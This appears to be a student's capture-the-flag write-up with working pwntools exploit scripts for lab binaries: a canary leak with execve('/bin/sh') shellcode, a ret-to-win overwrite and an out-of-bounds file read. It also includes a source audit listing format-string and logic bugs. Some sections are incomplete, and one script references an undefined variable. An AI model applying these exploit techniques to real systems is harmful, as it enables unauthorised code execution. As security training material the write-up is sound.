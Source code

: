 z5256275 Lachlan Waugh
==========================================================

shellcrack
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNS1zaGVsbGNyYWNrIiwiaXAiOiIxMDEuMTY0LjMzLjIxOSIsInNlc3Npb24iOiJjODA2NGZlZC0xOGI3LTQ0NjgtOWUwYi01NTg2OGY4NDRhM2MifQ.WoTGbau-o2xAB-Av_tQj8y17lKWZSJojILxmAQZ2pKY}

General overview:
----------------------------------------------------------
1. The canary is located next to a buffer that you pass data into, and then read from. If you fill up this buffer, and overwrite the null-byte, this will mean when the data is read it will leak the buffer.
2. You can therefore leak the canary, the address of the buffer you are writing into is also leaked.
3. From this you can construct a simple shellcode payload for execve(bin/sh) which contains the canary.
4. You simply overwrite EIP to point to the buffer, and the buffer contains the shellcode. You also need to ensure that the padding you use to overwrite EIP correctly places the canary back at 0x18 bytes from the EIP.

Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

p = process("./shellcrack")

p.sendlineafter("as:", "A" * 0xF)

# Grab the leaked canary
p.recvuntil("A\n")
canary = p.recvuntil("!", drop=True)

# Grab the leaked buffer address
p.recvuntil("[")
address = int(p.recvuntil("]", drop=True), 16)

# payload to execve /bin/sh
payload = asm("""
    push 0x0068732f
    push 0x6e69622f

    mov eax, 0xb
    mov ebx, esp
    mov ecx, 0x0
    mov edx, 0x0

    int 0x80
""")
# Insert padding to overwrite the EIP
payload += b"\x90" * (0x48 - 0x18 - len(payload))
# Write the canary back in the correct location (0x18 bytes from the EIP)
payload += canary
payload += "\x90" * (0x18 - len(canary))
payload += p32(address)

p.sendline(payload)

p.interactive()
p.close()
```


stack-dump2
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNS1zdGFjay1kdW1wMiIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiYzliMTUzYWYtMjAyMi00NWUzLThlMDYtNTc1MDFhZGU1NjcxIn0.ojSWxnBJ49VcEKrxOzOfe9laeC0Ni59l7DgBi11rOxk}

General overview:
----------------------------------------------------------
1.

Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

def input_data(len, data):
    p.sendlineafter("quit\n", "a")
    p.sendlineafter("len:", str(len))
    p.sendline(data)

def dump_memory():
    p.sendlineafter("quit\n", "b")
    p.recvuntil(": ")
    return p.recvline()

def leak_base():
    p.sendlineafter("quit\n", "c")
    p.recvline()

    base = p.recvuntil("-", drop=True)
    p.recvuntil("[stack]")

    return int(base, 16)

p = process("./stack-dump2")
elf = p.elf

# Leak the address of the canary
p.recvuntil("pointer ")
var75_addr  = int(p.recvline().strip(), 16)
canary = var75_addr + (0x75 - 0xC)

# Find the value of the canary
input_data(5, p32(canary_addr))
canary = dump_memory()[:4]

# Find the binary base from the memory map
elf.address = leak_base()

# Overwrite EIP with win() and the canary with the leaked canary value
payload = b"A" * 0x60
payload += canary
payload += b"A" * 0x8
payload += p32(elf.symbols["win"] - 0x1000)
input_data(len(payload) + 1, payload)

p.sendlineafter("quit\n", "d")

p.interactive()
p.close()
```


image-viewer
==========================================================
General overview:
----------------------------------------------------------
1.

Flag:
----------------------------------------------------------

Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

p = process("./image-viewer")

p.sendlineafter("> ", "trivial")

payload = b"-15" + b" " * 0x5       # the offset between the start of images[] and the start of buf[]
payload += p32(-15 & (0xFFFFFFFF))  # the offset as hex
payload += p32(0x804c060 + 0x10)    # the start of hex in memory + the offset to the following string
payload += "./flat earth truth"     # the name of the file to open
p.sendlineafter("> ", payload)

p.interactive()
p.close()
```

source.c (audit)    
==========================================================
Bugs:
----------------------------------------------------------

1. list_files (Line 116):
    There a possible race condition between writing ls "..." to list.txt and opening the file, it's possible that a person could open list.txt and write this back to the socket (a possible format string exploit?)

2. handle_conn (Line 140):
    The admin_level that allows admin activities seems to be 0 (based on SET_PERMISSION_LEVEL and COMMAND), however this seems to be the default admin_level? I'm a bit confused, wouldn't all of the commands be executed as admin.

3. handle_conn (Line 143):
    both log[] and action[] are of size MAX_LEN, with enough arguments pushed into the action you will truncate the string being copied.

4. handle_conn (Line 146):
    syslog(LOG_INFO, log) is a possible format string, log is a string created with snprintf() and user input, so if action + 1 contained a format string, it could cause an exploit (possibly overriding admin_level which is pushed during the snprintf()).

5. handle_conn (Line 167):
    admin_level is a uint8_t, while level is an int, if you passed in a value larger than 8 bytes it could be truncated when moving it into admin_level, but it will still pass the level != 0 test. (this would require overwriting using the above format string)

6. handle_conn (Line 168):
    There's no break in the switch cases between SET_PERMISSION_LEVEL and COMMAND. You could use the above exploit to set your admin_level to 0 then immediately execute a command.

Theres a number of unchecked return values leading from main -> handle_conn which would mean that an invalid socket or file descriptor could be passed into handle_conn without exiting. <br>
* main (Line 219): doesn't check that the socket returned from setup_networking isn't -1. It just passes it into run_server() <br>
* run_server (Line 210): doesn't check that the fd returned from accept() is valid (which it wouldn't be if socket == -1). It just passes it into handle_conn() <br>
* handle_conn (Lines 137 & 139): never checks whether any bytes are written to/read from the socket. In this case action[] would be uninitialized leading to undefined behaviour. <br>

re
==========================================================
Code:

```C
    int re_this(int arg1, int arg2) {
        return (arg1 + arg2) % 6;
    }
```